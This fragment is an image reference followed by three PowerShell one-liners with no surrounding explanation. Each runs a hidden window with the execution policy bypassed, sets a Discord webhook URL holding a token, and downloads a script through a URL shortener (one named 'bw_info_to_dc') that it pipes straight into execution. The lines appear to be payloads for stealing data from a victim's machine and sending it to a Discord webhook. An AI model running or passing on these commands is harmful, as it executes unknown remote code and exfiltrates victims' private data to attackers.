 powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1237737589994426368/xKo4fZ-cxePmcMuWfz9_sPbIoMjwJaZPTUvFO5FcZ_GSkrlgMqh-8phsr6xhKPpvJTmI'; irm https://is.gd/bw_info_to_dc | iex



powershell -NoP -Ep Bypass -W H -C $dc='https://discordapp.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex


powershell -NoP -Ep Bypass -W H -C $dc='https://discord.com/api/webhooks/1219284609024659466/xK7yZtmaz5iX5QtrZKbqGOjl4fkV8t_bY6l-tRH05MnDpwAQSVQr6ZtnZvZe3UrGZzcO'; irm https://t.ly/rJl5k | iex
